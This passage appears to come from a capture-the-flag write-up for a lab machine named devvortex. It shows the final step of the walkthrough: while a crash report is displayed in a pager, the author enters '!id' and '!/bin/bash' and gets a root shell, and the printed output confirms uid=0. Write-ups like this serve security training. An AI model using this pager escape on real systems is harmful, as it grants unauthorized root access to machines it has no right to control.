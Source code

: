 ![](attachments/devvortex_16.png)

The last thing I need to do is put the following commands :

```bash
!id
!/bin/bash
```

Then I can open a shell as `root`.

```bash
What would you like to do? Your options are:
  S: Send report (1.4 KB)
  V: View report
  K: Keep report file for sending later or copying to somewhere else
  I: Cancel and ignore future crashes of this program version
  C: Cancel
Please choose (S/V/K/I/C): V
uid=0(root) gid=0(root) groups=0(root)
!done  (press RETURN)
root@devvortex:/home/logan# id
uid=0(root) gid=0(root) groups=0(root)
```

I got `root` shell!
